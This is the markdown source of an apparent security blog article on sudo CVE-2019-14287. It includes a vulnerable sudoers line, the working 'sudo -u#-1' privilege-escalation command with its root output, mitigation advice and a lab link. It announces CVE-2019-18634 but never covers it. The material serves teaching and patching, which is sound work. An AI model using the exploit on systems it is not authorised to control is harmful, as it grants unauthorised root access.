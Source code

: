 ```yaml
---
title: "Sudo CVEs"
description: 
date: 2025-01-23T14:14:48Z
image: 
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","kernel","Linux","Sudo","CVE"]
categories: ["Linux-Privilege-Escalation","Sudo-Attacks"] 
---
```


# Sudo CVEs

In this article, we will discuss sudo CVEs, specifically `CVE-2019-14287` and `CVE-2019-18634`, and how they allow us to achieve sudo privilege escalation on Linux systems.  

### **CVE-2019-14287**

CVE-2019-14287 is a vulnerability in `sudo` that allows a user with restricted privileges to execute arbitrary commands as **root**, even if they are explicitly denied in the `sudoers` file. This occurs due to improper validation of the user ID (`UID`) when running commands.

---

### **Details of the Vulnerability**

1. **Affected Software**:
    - `sudo` versions prior to **1.8.28**.
    
1. **Vulnerability Description**:
    - When `sudo` is configured to allow a user to execute commands as any user **except root** using the `!ALL` directive in the `sudoers` file, the vulnerability allows bypassing this restriction.
    - The issue arises because `sudo` does not properly handle the `-1` or `4294967295` value for the `UID`. Internally, these values are interpreted as `0` (root).
2. **Exploitation**:
    - A user can exploit this by specifying `-u#-1` to execute a command as root, bypassing the restrictions.

---

### **Proof of Concept (PoC)**

#### 1. Vulnerable Configuration in `/etc/sudoers`:

The following configuration denies a user (`exampleuser`) from executing commands as root:

```plaintext
exampleuser ALL=(ALL,!root) ALL
```

#### 2. Exploit Command:

The attacker can bypass the restriction and run commands as root:

```bash
sudo -u#-1 id
```

#### 3. Expected Output:

The command will execute as root (`UID=0`):

```plaintext
uid=0(root) gid=0(root) groups=0(root)
```

---

### **Impact**

- **Privilege Escalation**: The attacker gains root privileges, bypassing intended restrictions.
- **Severity**: High (CVSS Score: 7.8).

---

### **Mitigation**

1. **Update `sudo`**:
    
    - Upgrade to **sudo 1.8.28** or later, which properly validates `UID` values.
    
    ```bash
    sudo apt update && sudo apt install sudo
    ```
    
2. **Audit and Restrict sudoers Configuration**:
    
    - Ensure your `sudoers` file does not rely solely on `!root` for user restrictions.
3. **Monitor and Log sudo Usage**:
    
    - Use logs to monitor unusual activity involving `sudo`.

---

### Labs :

- https://tryhackme.com/r/room/sudovulnsbypass

### **References**

- [MITRE CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
